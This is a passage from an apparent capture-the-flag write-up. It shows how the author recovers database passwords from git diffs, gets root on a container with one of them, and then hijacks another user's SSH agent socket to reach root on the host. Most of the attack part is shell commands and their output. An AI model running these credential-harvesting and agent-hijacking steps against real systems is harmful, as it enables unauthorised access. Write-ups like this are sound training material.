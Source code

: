 I diff'ed every commit and different password for the database: `7^Grc%C\7xEQ?tb4`

```
# git diff HEAD@{4}
[...]
-spring.datasource.url=jdbc:mysql://localhost:3306/db
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
 spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.password=jT7Hr$.[nF.)c)4C
 server.address=0.0.0.0
```

### Root access through SSH agent hijack

The new found password works to get root access on the `kaneki-pc` container:

```
kaneki_pub@kaneki-pc:~$ su -l root
Password:
root@kaneki-pc:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kaneki-pc:~# ls
root.txt
root@kaneki-pc:~# cat root.txt
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```

As expected, I don't have access to the real `root.txt` flag on this one.

Earlier I found that a user connects remotely then back using root's account on the host. I can just wait until the next time it connects then hijack its ssh agent socket:

```
root@kaneki-pc:/tmp# ls -l
total 20
drwx------ 1 root       root       4096 Dec 16 07:36 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4096 Dec 16 07:36 ssh-FWSgs7xBNwzU
drwx------ 2 kaneki_adm kaneki_adm 4096 May  8 02:00 ssh-Y2CJdynAyJ
drwx------ 1 kaneki_pub kaneki     4096 Dec 16 07:36 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 May  8 01:16 sshd-stderr---supervisor-b_s4zO.log
-rw------- 1 root       root          0 May  8 01:16 sshd-stdout---supervisor-rrVo6W.log

root@kaneki-pc:/tmp# cd ssh-Y2CJdynAyJ
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ls -l
total 0
srwxr-xr-x 1 kaneki_adm kaneki_adm 0 May  8 02:00 agent.216
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# export SSH_AUTH_SOCK=agent.216

root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ssh -p 2222 172.18.0.1
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

[...]

Last login: Tue May  7 19:00:02 2019 from 172.18.0.200
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aogiri:~# ls
log.sh  root.txt
root@Aogiri:~# cat root.txt
7c0f11...
```
